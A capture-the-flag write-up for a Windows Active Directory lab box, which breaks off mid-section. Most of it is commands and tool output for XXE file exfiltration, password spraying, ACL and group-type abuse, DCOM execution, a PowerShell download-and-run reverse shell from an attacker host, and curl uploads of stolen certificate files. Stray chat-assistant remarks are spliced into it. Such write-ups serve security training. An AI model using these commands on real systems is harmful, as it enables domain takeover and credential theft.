# Scaffold

```
Difficulty: Hard  
OS: Windows  
Services: Kerberos, LDAP/LDAPS, SMB, WinRM, IIS, MDT MonitorService, AD CS
```

## Summary of Attack Chain

| Step | User / Access         | Technique Used                             | Result                                                                                                                                                                 |
| :--: | :-------------------- | :----------------------------------------- | :--------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
|   1  | j.harris (Guest)      | **Active Directory Enumeration**           | Enumerated the AD domain, users, groups, OUs, shares, and identified `portal.scaffold.htb` and MDT/WDS infrastructure.                                                 |
|   2  | j.harris              | **LDAP Description Enumeration**           | Discovered a temporary plaintext password in `m.carter`'s LDAP `description` attribute, but the account was disabled.                                                  |
|   3  | j.harris              | **AD ACL Enumeration**                     | Identified `r.wilson` with `AddSelf` over **Helpdesk operator**, which had `GenericWrite` over `m.carter`.                                                             |
|   4  | j.harris              | **Service Enumeration**                    | Full TCP scan discovered MDT MonitorService on ports `9800` and `9801`, exposing unauthenticated SOAP/WCF and OData endpoints.                                         |
|   5  | N/A (External)        | **XXE Injection**                          | Abused the unauthenticated MDT MonitorService XXE to read `CustomSettings.ini` and `Bootstrap.ini` from the deployment share.                                          |
|   6  | svc_deploy / r.wilson | **Credential Disclosure & Password Reuse** | Recovered credentials for `svc_deploy` and `svc_mdt`; the valid `svc_deploy` password was also reused by `r.wilson`.                                                   |
|   7  | r.wilson              | **ACL Abuse / Account Enablement**         | Added `r.wilson` to **Helpdesk operator** and abused `GenericWrite` to enable `m.carter` by modifying `userAccountControl`.                                            |
|   8  | svc_deploy            | **Group-Type Manipulation**                | Abused `WriteProperty` over `Quarantined_Accounts` and `IT` to change their `groupType`, bypassing quarantine restrictions and enabling security-group membership.     |
|   9  | m.carter              | **DCOM Remote Execution**                  | Added `m.carter` to **Endpoint Remote Management** and used DCOM/MMC20 execution to obtain a shell as `m.carter`.                                                      |
|  10  | m.carter              | **Certificate Credential Harvesting**      | Discovered and exfiltrated `InternalCodeSigning_01.pfx` and `InternalCodeSigning_02.pfx`, then cracked their shared PFX password.                                      |
|  11  | d.cooper              | **PKINIT / Certificate Authentication**    | Used `InternalCodeSigning_01.pfx` with Certipy to authenticate as `d.cooper` and recover the account's NT hash.                                                        |
|  12  | d.cooper              | **Pass-the-Hash (WinRM)**                  | Used the recovered NT hash to authenticate through Evil-WinRM as `d.cooper`, gaining access to the ScaffoldPortal build environment.                                   |
|  13  | d.cooper              | **Application Source Code Analysis**       | Reverse-engineered `ScaffoldPortal` and identified a validation trust-boundary flaw plus the `CN=Package_Developers` / `scaffold-DC-CA` certificate trust requirement. |
|  14  | d.cooper              | **AD CS Template Abuse**                   | Found `PackagingCodeSigning` with `Enrollee Supplies Subject` enabled and leveraged delegated computer creation rights to create `evilpc$`.                            |
|  15  | evilpc$               | **Forged Code-Signing Certificate**        | Enrolled `evilpc$` for a CA-signed certificate with the forged subject `CN=Package_Developers`, satisfying the deployment engine's trust check.                        |
|  16  | d.cooper              | **Malicious MSI / Code Signing**           | Created a reverse-shell MSI and signed it with the forged `Package_Developers` certificate issued by `scaffold-DC-CA`.                                                 |
|  17  | d.cooper / m.chen     | **Portal Workflow Abuse**                  | Uploaded the signed MSI as `d.cooper` and abused password/NT-hash reuse to authenticate as validator `m.chen` and approve the package.                                 |
|  18  | SYSTEM                | **Trusted Package Deployment Abuse**       | The automated deployment engine accepted the forged certificate and silently installed the malicious MSI as `NT AUTHORITY\SYSTEM`.                                     |
|  19  | SYSTEM (DC)           | **Domain Controller Compromise**           | Obtained a SYSTEM shell on the Domain Controller and retrieved `root.txt`.                                                                                             |




## Offensive Operations

### Recon

#### Initial Nmap scan

```
nmap -sV -sC 10.129.xx.xx
```

Result summary:

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: 401 - Unauthorized: Access is denied due to invalid credentials.
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: scaffold.htb, Site: Default-First-Site-Name)
443/tcp  open  ssl/https?    (cert CN=portal.scaffold.htb, SAN: portal.scaffold.htb, DC01)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap
3268/tcp open  ldap          (Global Catalog)
3269/tcp open  ssl/ldap      (Global Catalog SSL)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (WinRM)
```

Host script results showed:
- SMB signing enabled and required
- A large clock skew (~7h) between scanner and target - this becomes relevant later because it broke Kerberos authentication for some tools.
- Host name: `DC`, OS: Windows Server 2022 Build 20348.

**Takeaway:** Classic AD Domain Controller - Kerberos, LDAP, SMB, Global Catalog, WinRM are all up. There is also an IIS website on 80/443, one of which (443) is bound to `portal.scaffold.htb`, hinting at a custom web application separate from the domain itself.

#### Hosts file setup

Since the DC also hosts a custom vhost (`portal.scaffold.htb`), the hosts file was updated:

```
cat /etc/hosts
10.129.xx.xx   scaffold.htb dc.scaffold.htb portal.scaffold.htb dc
```


#### Validating the given credentials over SMB

Before anything else, the given creds were validated and shares enumerated:

```
nxc smb 10.129.xx.xx -u j.harris -p '[REDACTED]' --shares
```

```
SMB   10.129.xx.xx  445  DC  [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:scaffold.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB   10.129.xx.xx  445  DC  [+] scaffold.htb\j.harris:[REDACTED]
SMB   10.129.xx.xx  445  DC  [*] Enumerated shares
Share            Permissions  Remark
ADMIN$                        Remote Admin
C$                            Default share
DeploymentShare$              MDT Deployment Share
IPC$             READ         Remote IPC
NETLOGON         READ         Logon server share
REMINST          READ         Windows Deployment Services Share
SYSVOL           READ         Logon server share
Y$
```




**Proof creds are valid:** the `[+]` line confirms authentication succeeded. Interesting shares immediately stand out: `DeploymentShare$`, `REMINST`, and `Y$` - all pointing at **Microsoft Deployment Toolkit (MDT)** / **Windows Deployment Services (WDS)**, which is the central theme of this box.

#### Poking at REMINST over SMB

```
impacket-smbclient j.harris@10.129.xx.xx
```

```
# shares
ADMIN$
C$
DeploymentShare$
IPC$
NETLOGON
REMINST
SYSVOL
Y$
# use REMINST
# ls
drw-rw-rw-   0  Boot
drw-rw-rw-   0  Images
drw-rw-rw-   0  Mgmt
drw-rw-rw-   0  Stores
drw-rw-rw-   0  Templates
drw-rw-rw-   0  Tmp
drw-rw-rw-   0  WdsClientUnattend
# cd WdsClientUnattend
[-] SMB SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED
```






We can list the share but access to `WdsClientUnattend` (which often holds unattended-install answer files with creds) is denied for `j.harris`. Filed away for later.

#### BloodHound collection

```
bloodhound-python -u j.harris -p '[REDACTED]' -d scaffold.htb -ns 10.129.xx.xx -c All
```

Output (trimmed):

```
INFO: Found AD domain: scaffold.htb
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Found 1 computers
INFO: Found 15 users
INFO: Found 62 groups
INFO: Found 3 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
```




Two things worth calling out:
1. The clock skew we noticed in the nmap scan actually broke Kerberos auth for BloodHound, which fell back to NTLM automatically.
2. At this point in the run, BloodHound didn't have anything immediately actionable, so this data was revisited later once more users/creds were discovered.

#### The website (portal.scaffold.htb)

Visiting `https://portal.scaffold.htb` and logging in with `j.harris`'s credentials gets a **guest-level** dashboard. It shows a "package audit" feature that matches the naming we saw on the WDS/MDT shares (packages being deployed). However, most functionality is disabled for a guest account - this is a custom internal portal (`ScaffoldPortal`) for managing software package deployment, which becomes central to the privesc chain later.




### Finding a second user via LDAP description fields

A very common AD misconfiguration is admins leaving passwords or hints inside the `description` attribute of user objects. This was checked with an NetExec (`nxc`) LDAP module:

```
nxc ldap 10.129.xx.xx -u j.harris -p '[REDACTED]' -M get-desc-users
```

```
GET-DESC...  [+] Found following users:
User: Administrator description: Built-in account for administering the computer/domain
User: Guest         description: Built-in account for guest access to the computer/domain
User: krbtgt        description: Key Distribution Center Service Account
User: m.carter      description: Retained for endpoint migration validation. Temp reset: [REDACTED]
```

This exposed a temporary password for `m.carter` sitting in plaintext inside the description field.

**Testing it:**

```
nxc smb 10.129.xx.xx -u m.carter -p '[REDACTED]'
```

```
SMB   10.129.xx.xx  445  DC  [-] scaffold.htb\m.carter:[REDACTED] STATUS_ACCOUNT_DISABLED
```






The password is correct (NetExec would say `STATUS_LOGON_FAILURE` for a wrong password), but the account itself is **disabled**. From the BloodHound data collected earlier, `m.carter` was flagged as a high-value target: this account has the rights to add itself to a "Remote Management"-type group. So the plan became: find a way to **enable** `m.carter` first, then log in with this already-known password.


### SID brute-forcing to build a user list

To make future password-spraying attempts easier, all domain users/groups were enumerated via SID brute-forcing (RID cycling) using `j.harris`'s credentials:

```
impacket-lookupsid j.harris@10.129.xx.xx
```

```
[*] Domain SID is: S-1-5-21-xxxxxxxxxx-xxxxxxxxxx-xxxxxxxxxx
498: SCAFFOLD\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: SCAFFOLD\Administrator (SidTypeUser)
501: SCAFFOLD\Guest (SidTypeUser)
502: SCAFFOLD\krbtgt (SidTypeUser)
512: SCAFFOLD\Domain Admins (SidTypeGroup)
...
1000: SCAFFOLD\DC$ (SidTypeUser)
1101: SCAFFOLD\DnsAdmins (SidTypeAlias)
1102: SCAFFOLD\DnsUpdateProxy (SidTypeGroup)
1103: SCAFFOLD\IT (SidTypeGroup)
1104: SCAFFOLD\Package_Developers (SidTypeGroup)
1105: SCAFFOLD\Deploy_Operators (SidTypeGroup)
1106: SCAFFOLD\Endpoint Remote Management (SidTypeGroup)
1107: SCAFFOLD\Helpdesk (SidTypeGroup)
1109: SCAFFOLD\svc_mdt (SidTypeUser)
1110: SCAFFOLD\m.carter (SidTypeUser)
1111: SCAFFOLD\svc_deploy (SidTypeUser)
1112: SCAFFOLD\t.nguyen (SidTypeUser)
1113: SCAFFOLD\j.harris (SidTypeUser)
1114: SCAFFOLD\Helpdesk operator (SidTypeGroup)
1115: SCAFFOLD\Quarantined_Accounts (SidTypeGroup)
1116: SCAFFOLD\Identity_Operations (SidTypeGroup)
1117: SCAFFOLD\r.wilson (SidTypeUser)
```

From this a `users.txt` was built:

```
cat users.txt
svc_mdt
m.carter
svc_deploy
t.nguyen
j.harris
r.wilson
```




The group names already hint at the whole later privilege-escalation chain: `Package_Developers`, `Deploy_Operators`, `Endpoint Remote Management`, `Helpdesk`, `Quarantined_Accounts`, `Identity_Operations`.

Found a key ACE. Let's pull the rest of the picture from `users.json` (looking for who has write rights on `m.carter`) and check `Quarantined_Accounts` / `Identity_Operations`.This is exactly the chain we needed. Confirmed via actual data:

1. **`r.wilson`** has `AddSelf` on **`Helpdesk operator`** group
2. **`Helpdesk operator`** group has `GenericWrite` on **`m.carter`**

So: `r.wilson` -> joins `Helpdesk operator` -> gets write access to `m.carter`'s attributes (including `userAccountControl`, to un-disable the account).

Let's check the other two groups relevant to lifting the quarantine block (`Quarantined_Accounts`, `Identity_Operations`) which weren't in my first filter.No match - let me list all group names to see what's actually there (names may differ slightly from the reference notes since each instance is randomized).`Quarantined_Accounts` and `Identity_Operations` aren't showing up in the groups collection at all - that's odd given RID cycling saw them as `SidTypeGroup`. Let me search across all files for those specific SIDs to see what BloodHound actually captured.Good catch on your part for getting BloodHound data - but this actually confirms something important: `Quarantined_Accounts` and `Identity_Operations` aren't present in the BloodHound collection at all (even though RID cycling saw them as groups). This matches a known quirk - BloodHound doesn't always render every ACE relationship cleanly, especially on some group/object-type edge cases. We'll need to check those two directly with `dacledit` once we have a working account, rather than relying on BloodHound for them.

**Where we actually stand right now:**
- We have `j.harris` (limited/guest) 
- We know `m.carter`'s password is correct but the account is **disabled** - and we now know exactly *how* to enable it: `r.wilson` -> `AddSelf` on `Helpdesk operator` -> `GenericWrite` on `m.carter` -> flip `userAccountControl`
- **But we don't have a password for `r.wilson` yet.** That's the missing piece.

Based on the pattern here, credentials for `r.wilson` (and `svc_deploy`) are likely to surface from the MDT deployment share leak - which means we need to go back and find those extra high ports (9800/9801-style MDT MonitorService) that a standard nmap scan misses.


#### Password spray attempt (unsuccessful, at this stage)

The password recovered from `m.carter`'s description was sprayed against all discovered users - this did not work for anyone else, so the recon moved on to other services.

#### Extra port discovery with rustscan

To make sure nothing was missed on the full TCP range, `rustscan` was run:

```
rustscan -a 10.129.xx.xx
```

This revealed several extra open ports beyond the initial top-1000 nmap scan:

```
53, 80, 88, 135, 139, 389, 443, 445, 464, 593, 636, 3268, 3269,
5040, 5985, 9389, 9800, 9801, 47001,
49250, 49251, 49252, 49664, 49665, 49666, 49667, 49668,
52951, 53548, 53566, 53569, 59268
```

The interesting new ones are **9800** and **9801** - not part of a standard Windows install. A follow-up targeted nmap confirmed the same list and service names (`davsrc` / `sstp-2` guesses from nmap's default service DB, not accurate for what's actually running there).


### MDT MonitorService - the real way in (ports 9800 / 9801)

Ports 9800/9801 turned out to belong to **MDT's MonitorService**:
- **9800** - the `MDTMonitorEvent` WCF SOAP endpoint (event posting / settings retrieval), used by MDT clients during OS deployment to report progress back to the deployment server.
- **9801** - an OData ("`MDTMonitorData`") read-back feed exposing the same data as a REST/Atom service.

Both endpoints were reachable **without authentication**.

#### Enumerating the SOAP service (port 9800)

```
curl http://scaffold.htb:9800/MDTMonitorEvent/
```

This returned the default WCF "You have created a service" landing page, confirming a live WCF SOAP endpoint named `MonitorEventService`.

Fetching the WSDL:

```
curl 'http://scaffold.htb:9800/MDTMonitorEvent/?singleWsdl'
```

The WSDL revealed two exposed operations:
- `PostEvent` - accepts fields like `uniqueID`, `computerName`, `messageId`, `stepName`, `currentStep`, `totalSteps`, `dartIP`, `dartPort`, `dartTicket`, `vmHost`, `vmName`, etc. This is what MDT clients call to report deployment progress.
- `GetSettings` - takes a `uniqueID` and returns a `StreamBody` (base64-encoded blob) - this is how a deploying machine retrieves its `CustomSettings.ini` / `Bootstrap.ini` config, which (as will be shown) can contain **plaintext domain-join credentials**.

#### Enumerating the OData feed (port 9801)

```
curl -s http://scaffold.htb:9801/MDTMonitorData/
```

```xml
<service xml:base="http://scaffold.htb:9801/MDTMonitorData/" ...>
  <workspace>
    <collection href="Computers">...</collection>
    <collection href="ComputerIdentities">...</collection>
    <collection href="NextIDs">...</collection>
  </workspace>
</service>
```




Fetching the OData metadata document confirmed the underlying schema (`Computer`, `ComputerIdentity`, `NextID` entities), matching what MDT's SQL back-end stores for tracking in-progress deployments (`PercentComplete`, `Settings`, `StepName`, `DartIP`/`DartPort`/`DartTicket` for remote-control sessions, etc.).

#### The vulnerability - XXE via MDT MonitorService (CVE-class issue)

The MDT MonitorService's `GetSettings`/event-posting flow is vulnerable to **XXE (XML External Entity) injection**, which can be abused to read arbitrary files off the deployment share (and, in the original disclosed exploit, even off the filesystem more broadly) by tricking the service into resolving a malicious external DTD hosted by the attacker, then exfiltrating the file contents back over HTTP.

Public references used:
- Original exploit repo (worked at time of the CVE's disclosure, later patched on newer MDT builds): **https://github.com/garrettfoster13/wtftp**
- A smaller/simplified Python re-implementation used for this box: **https://github.com/manbahadurthapa1248/MDT-XXE-exploit**

The original `wtftp` exploit could, at the time, be used to read both the user and root flag directly through this XXE - but that path has since been patched on this box, so a scaled-down python XXE tool was used instead purely to read the MDT `CustomSettings.ini` and `Bootstrap.ini` files (which live on the `Y$`/`DeploymentShare$` share we saw earlier, and which `j.harris` didn't have rights to browse directly under `WdsClientUnattend`).

#### Exploiting the XXE to read `CustomSettings.ini`

```
python3 exploit.py --target 10.129.xx.xx --attacker 10.10.xx.xx \
  --file "Y:/DeploymentShare/Control/CustomSettings.ini" \
  --dtd-port 9000 --exfil-port 9001
```

```
[INFO] Server listening on port 9000
[INFO] Server listening on port 9001
[INFO] Event created with GUID: 81c3f439-xxxx-xxxx-xxxx-xxxxxxxxxxxx
[INFO] Computer record ID: 46
[INFO] Payload injected successfully (status 204)
[INFO] Served evil.dtd to 10.129.xx.xx
[INFO] === EXFILTRATED DATA ===
[Settings]
Priority=Default
Properties=MyCustomProperty

[Default]
OSInstall=Y

DeployRoot=\\DC\DeploymentShare$
UserID=svc_deploy
UserPassword=[REDACTED]
UserDomain=scaffold.htb

JoinDomain=scaffold.htb
DomainAdmin=svc_deploy
DomainAdminPassword=[REDACTED]
MachineObjectOU=OU=Workstations,OU=Computers,DC=scaffold,DC=htb

SkipCapture=NO
SkipAdminPassword=YES
SkipProductKey=YES
SkipComputerBackup=NO
SkipBitLocker=NO
SkipLocaleSelection=YES
SkipTimeZone=YES
SkipUserData=YES
SkipComputerName=NO
SkipDomainMembership=NO

KeyboardLocale=en-US
UserLocale=en-US
UILanguage=en-US
HideShell=YES
ApplyGPOPack=YES
EventService=http://dc:9800
[INFO] =========================
[INFO] Settings request completed (status 200)
```

**What just happened, in plain terms:** MDT's `CustomSettings.ini` is the config file every machine reads while being imaged/deployed, and it commonly embeds a service account's credentials so the deploying machine can auto-join the domain. By abusing the unauthenticated XXE in the monitor service, we made the *server itself* read this file off its own deployment share and hand the contents back to us through our fake DTD/exfil listener - without ever needing filesystem access ourselves. This leaked a plaintext password for `svc_deploy` (used both as the deploy account and, interestingly, listed again as a `DomainAdmin` value in the same file - though as we'll see, the two password strings shown differ slightly by a single character, likely a documentation/typo trap).

#### Exploiting the XXE to read `Bootstrap.ini`

```
python3 exploit.py --target 10.129.xx.xx --attacker 10.10.xx.xx \
  --file "Y:/DeploymentShare/Control/Bootstrap.ini" \
  --dtd-port 9000 --exfil-port 9001
```

```
[INFO] Event created with GUID: 928cf4d3-xxxx-xxxx-xxxx-xxxxxxxxxxxx
[INFO] Computer record ID: 45
[INFO] Payload injected successfully (status 204)
[INFO] Served evil.dtd to 10.129.xx.xx
[INFO] === EXFILTRATED DATA ===
[Settings]
Priority=Default

[Default]
DeployRoot=\\DC\DeploymentShare$
UserID=svc_mdt
UserPassword=[REDACTED]
UserDomain=scaffold.htb
SkipBDDWelcome=YES
[INFO] =========================
```

This second file leaked a plaintext password for a different service account, `svc_mdt`.

**Result of this stage:** two usernames (`svc_deploy`, `svc_mdt`) and effectively three candidate password strings (one for `svc_mdt`, and two very similar-but-not-identical strings tied to `svc_deploy`/`DomainAdmin` in the first file).


### Turning leaked creds into a foothold - proving password reuse/validity

Rather than assume which password/user combo was correct, **every candidate password was sprayed against every known username**, and the exact NetExec status codes were captured as proof.

#### `svc_mdt`'s password

```
nxc smb 10.129.xx.xx -u users.txt -p '[REDACTED-svc_mdt-pass]' --continue-on-success
```

```
SMB  10.129.xx.xx  445  DC  [-] scaffold.htb\svc_mdt:[REDACTED]    STATUS_ACCOUNT_EXPIRED
SMB  10.129.xx.xx  445  DC  [-] scaffold.htb\m.carter:[REDACTED]   STATUS_LOGON_FAILURE
SMB  10.129.xx.xx  445  DC  [-] scaffold.htb\svc_deploy:[REDACTED] STATUS_LOGON_FAILURE
SMB  10.129.xx.xx  445  DC  [-] scaffold.htb\t.nguyen:[REDACTED]   STATUS_LOGON_FAILURE
SMB  10.129.xx.xx  445  DC  [-] scaffold.htb\j.harris:[REDACTED]   STATUS_LOGON_FAILURE
SMB  10.129.xx.xx  445  DC  [-] scaffold.htb\r.wilson:[REDACTED]   STATUS_LOGON_FAILURE
```

`STATUS_ACCOUNT_EXPIRED` on `svc_mdt` confirms the password *is* correct for that account, but the account itself has expired and can't be used to log in as-is.

#### first `svc_deploy`/DomainAdmin password variant from `CustomSettings.ini`

```
nxc smb 10.129.xx.xx -u users.txt -p '[REDACTED-variant-1]' --continue-on-success
```

```
SMB  10.129.xx.xx  445  DC  [-] scaffold.htb\svc_mdt:[REDACTED]    STATUS_LOGON_FAILURE
SMB  10.129.xx.xx  445  DC  [-] scaffold.htb\m.carter:[REDACTED]   STATUS_LOGON_FAILURE
SMB  10.129.xx.xx  445  DC  [-] scaffold.htb\svc_deploy:[REDACTED] STATUS_LOGON_FAILURE
SMB  10.129.xx.xx  445  DC  [-] scaffold.htb\t.nguyen:[REDACTED]   STATUS_LOGON_FAILURE
SMB  10.129.xx.xx  445  DC  [-] scaffold.htb\j.harris:[REDACTED]   STATUS_LOGON_FAILURE
SMB  10.129.xx.xx  445  DC  [-] scaffold.htb\r.wilson:[REDACTED]   STATUS_LOGON_FAILURE
```

No hits - this variant was wrong for every account.

#### second `svc_deploy`/DomainAdmin password variant

```
nxc smb 10.129.xx.xx -u users.txt -p '[REDACTED-variant-2]' --continue-on-success
```

```
SMB  10.129.xx.xx  445  DC  [-] scaffold.htb\svc_mdt:[REDACTED]    STATUS_LOGON_FAILURE
SMB  10.129.xx.xx  445  DC  [-] scaffold.htb\m.carter:[REDACTED]   STATUS_LOGON_FAILURE
SMB  10.129.xx.xx  445  DC  [+] scaffold.htb\svc_deploy:[REDACTED]
SMB  10.129.xx.xx  445  DC  [-] scaffold.htb\t.nguyen:[REDACTED]   STATUS_LOGON_FAILURE
SMB  10.129.xx.xx  445  DC  [-] scaffold.htb\j.harris:[REDACTED]   STATUS_LOGON_FAILURE
SMB  10.129.xx.xx  445  DC  [+] scaffold.htb\r.wilson:[REDACTED]
```




This one landed - and it landed for **two accounts at once**: `svc_deploy` *and* `r.wilson`. This is a textbook **password reuse** finding: the same password protects both a service account and a regular user account. The `[+]` markers from NetExec are the proof that authentication succeeded for both.

**Lesson on the near-miss earlier:** the `CustomSettings.ini` file contained two password strings that looked almost identical (differing only by a substitution of one character, a common typo-squat/"decoy" pattern), and only the second one was actually the true password in use - a good reminder to always try every literal variant found in a config file rather than assuming which is "the" real one.






### Abusing ACLs to enable and take over `m.carter`

With `r.wilson` and `svc_deploy` now available, the BloodHound graph from earlier was revisited (mentally reconstructed here, since the live BloodHound GUI isn't shown, but the abuse paths are exactly what was executed):

```
r.wilson    --add-self-->            HelpDesk Operators  --GenericWrite-->      m.carter
svc_deploy  --member-of-->           Identity_Operations --GenericWrite(group)--> Quarantined_Accounts / IT  --contains--> m.carter
m.carter (after being enabled, and Quarantined_Accounts converted to a Distribution group)
   --member-of--> IT (after IT is converted to a Security/Global group)
   --add-self--> Endpoint Remote Management (a custom group; WinRM itself is blocked for this group,
                  but access can be gained via DCOM/RPC instead of WinRM's HTTP listener)
```

#### `r.wilson` adds himself to `Helpdesk operator`

```
bloodyad -H scaffold.htb -d scaffold.htb -u r.wilson -p '[REDACTED]' \
  add groupMember 'Helpdesk operator' r.wilson
```


```
[+] r.wilson added to Helpdesk operator
```

#### Enable `m.carter`'s account




Membership in `Helpdesk operator` (via a `GenericWrite` ACE) grants the ability to write arbitrary attributes on `m.carter`, including `userAccountControl` - the AD flag bitmask that governs whether an account is enabled/disabled. Setting it to `66048` (which is `NORMAL_ACCOUNT (512)` + `DONT_EXPIRE_PASSWORD (65536)`) both **enables** the account and stops its password from expiring:

```
bloodyad -H scaffold.htb -d scaffold.htb -u r.wilson -p '[REDACTED]' \
  set object m.carter userAccountControl -v 66048
```




```
[+] m.carter's userAccountControl has been updated
```

**Verifying the account is enabled, but login is still restricted:**

```
nxc smb 10.129.xx.xx -u m.carter -p '[REDACTED]'
```

```
SMB  10.129.xx.xx  445  DC  [-] scaffold.htb\m.carter:[REDACTED] STATUS_LOGON_TYPE_NOT_GRANTED
```

The status changed from `STATUS_ACCOUNT_DISABLED` to `STATUS_LOGON_TYPE_NOT_GRANTED` - proof the account is now enabled, but the *type* of logon being attempted (network logon, used by SMB) is being denied, most likely because `m.carter` is a member of the `Quarantined_Accounts` group, which is commonly linked to a restrictive GPO that blocks normal logon rights until the account is "released" from quarantine.

#### Confirm the `svc_deploy -> Quarantined_Accounts` write path with `dacledit`

BloodHound doesn't always render every useful ACE relationship cleanly, so the DACL on `Quarantined_Accounts` was read directly to confirm the actual permission:

```
impacket-dacledit -action read -target-dn 'CN=Quarantined_Accounts,OU=Scaffold,DC=scaffold,DC=htb' \
  scaffold.htb/svc_deploy:'[REDACTED]'
```


```
[*] ACE[0] info
    ACE Type      : ACCESS_ALLOWED_OBJECT_ACE
    Access mask   : WriteProperty (0x20)
    Object type (GUID) : Group-Type (9a9a021e-4a5b-11d1-a9c3-0000f80367c1)
    Trustee (SID) : Identity_Operations (S-1-5-21-...-1116)
```

This confirms: members of `Identity_Operations` (which `svc_deploy` belongs to) have `WriteProperty` rights specifically over the **`groupType`** attribute of `Quarantined_Accounts`. `groupType` controls whether a group is a Security group or a Distribution group, and whether it's Global/Domain-Local/Universal - this is exactly the lever needed to defang the quarantine group.






#### Convert `Quarantined_Accounts` from Security to Distribution group

Windows only applies group-based logon-restriction GPOs (and most security-relevant group logic) to **Security** groups - a **Distribution** group is just a mailing/organizational grouping with no security effect. By flipping `groupType` to `2` (Global Distribution Group), `m.carter`'s membership in `Quarantined_Accounts` stops mattering for logon rights:

```
bloodyad -H scaffold.htb -d scaffold.htb -u svc_deploy -p '[REDACTED]' \
  set object 'CN=Quarantined_Accounts,OU=Scaffold,DC=scaffold,DC=htb' groupType -v 2
```




```
[+] CN=Quarantined_Accounts,OU=Scaffold,DC=scaffold,DC=htb's groupType has been updated
```

**Verifying `m.carter` can now log on:**

```
nxc smb 10.129.xx.xx -u m.carter -p '[REDACTED]'
```

```
SMB  10.129.xx.xx  445  DC  [+] scaffold.htb\m.carter:[REDACTED]
```

Success - `m.carter` is now a usable, logon-capable account.




#### Same `groupType` trick on `IT`, to prep for the remote-management group

The plan requires `m.carter` (via membership in `IT`) to be able to add himself to `Endpoint Remote Management`. First, the DACL on `IT` was checked the same way:

```
impacket-dacledit -action read -target-dn 'CN=IT,OU=IT,OU=Scaffold,DC=scaffold,DC=htb' \
  scaffold.htb/m.carter:'[REDACTED]'
```

```
[*] ACE[0] info
    ACE Type      : ACCESS_ALLOWED_OBJECT_ACE
    Access mask   : WriteProperty (0x20)
    Object type (GUID) : Group-Type (9a9a021e-4a5b-11d1-a9c3-0000f80367c1)
    Trustee (SID) : Identity_Operations (S-1-5-21-...-1116)
```

Same `Identity_Operations` write access, this time on `IT`'s `groupType`. This group needed the opposite conversion: `IT` needed to become a **Security, Universal** group (`-2147483646`) so that its membership actually confers real, security-relevant group membership (Distribution groups can't be nested inside security-relevant groups like `Endpoint Remote Management` for token/permission purposes):

```
bloodyad -H scaffold.htb -d scaffold.htb -u svc_deploy -p '[REDACTED]' \
  set object 'CN=IT,OU=IT,OU=Scaffold,DC=scaffold,DC=htb' groupType -v -2147483646
```



```
[+] CN=IT,OU=IT,OU=Scaffold,DC=scaffold,DC=htb's groupType has been updated
```

#### `m.carter` adds himself to `Endpoint Remote Management`




```
bloodyad -H scaffold.htb -d scaffold.htb -u m.carter -p '[REDACTED]' \
  add groupMember 'Endpoint Remote Management' m.carter
```




```
[+] m.carter added to Endpoint Remote Management
```

#### Checking WinRM - and why it fails

```
nxc winrm 10.129.xx.xx -u m.carter -p '[REDACTED]'
```

```
WINRM  10.129.xx.xx  5985  DC  [-] scaffold.htb\m.carter:[REDACTED]
```

As the notes/box design intended, `Endpoint Remote Management` does **not** actually grant the standard `Remote Management Users` rights needed for WinRM's HTTP-based listener - this custom group only maps to DCOM-based remote execution rights instead. So the pivot was to **DCOM** (which travels over RPC, not WinRM's HTTP endpoint).




### Getting code execution as `m.carter` via DCOM

#### Sanity-check DCOM execution with a ping

```
impacket-dcomexec scaffold.htb/m.carter:'[REDACTED]'@10.129.xx.xx \
  'ping -n 2 10.10.xx.xx' -object MMC20 -nooutput
```

Confirming the ping actually arrived, ICMP was captured on the attacking box:

```
sudo tcpdump -i tun0 icmp
```

```
IP scaffold.htb > z0n: ICMP echo request, id 1, seq 1, length 40
IP z0n > scaffold.htb: ICMP echo reply, id 1, seq 1, length 40
IP scaffold.htb > z0n: ICMP echo request, id 1, seq 2, length 40
IP z0n > scaffold.htb: ICMP echo reply, id 1, seq 2, length 40
```





This is solid proof command execution is working as `m.carter`, even though there was no direct output channel from `dcomexec`.

#### Getting an interactive reverse shell

A PowerShell download-cradle reverse shell one-liner was executed via the same DCOM technique:

```
impacket-dcomexec scaffold.htb/m.carter:'[REDACTED]'@10.129.xx.xx \
  "powershell -nop -w hidden -c \"IEX(New-Object Net.WebClient).DownloadString('http://10.10.xx.xx:8000/Invoke-PowerShellTcp.ps1');" \
  -object MMC20 -nooutput
```

Catching the callback with `penelope` (a reverse-shell handler/multiplexer):

```
penelope -p 443
```

```
[+] Got reverse shell from scaffold.htb~10.129.xx.xx-WINDOWS
PS C:\windows\system32> whoami
scaffold\m.carter
```




Shell obtained as `m.carter`.

#### Grabbing the user flag

```
PS C:\Users\m.carter\Desktop> type user.txt
[REDACTED]
```




### Discovering code-signing certificates on disk

Browsing the filesystem as `m.carter` turned up a developer certificate folder:

```
PS C:\Dev\DevCerts> ls
```

```
-a-   InternalCodeSigning_01.pfx   3200 bytes
-a-   InternalCodeSigning_02.pfx   3200 bytes
```

#### Exfiltrating the PFX files

A quick upload server was spun up on the attacker box:

```
python3 -m uploadserver 80
```

And the files were pushed out from the target using `curl.exe`:

```
PS C:\Dev\DevCerts> curl.exe -F "files=@InternalCodeSigning_01.pfx" http://10.10.xx.xx/upload
PS C:\Dev\DevCerts> curl.exe -F "files=@InternalCodeSigning_02.pfx" http://10.10.xx.xx/upload
```


#### Cracking the PFX passwords

PFX/PKCS#12 files are password-protected containers for a certificate + private key. `pfx2john` converts them into a crackable hash format for John the Ripper:

```
pfx2john InternalCodeSigning_01.pfx > hash
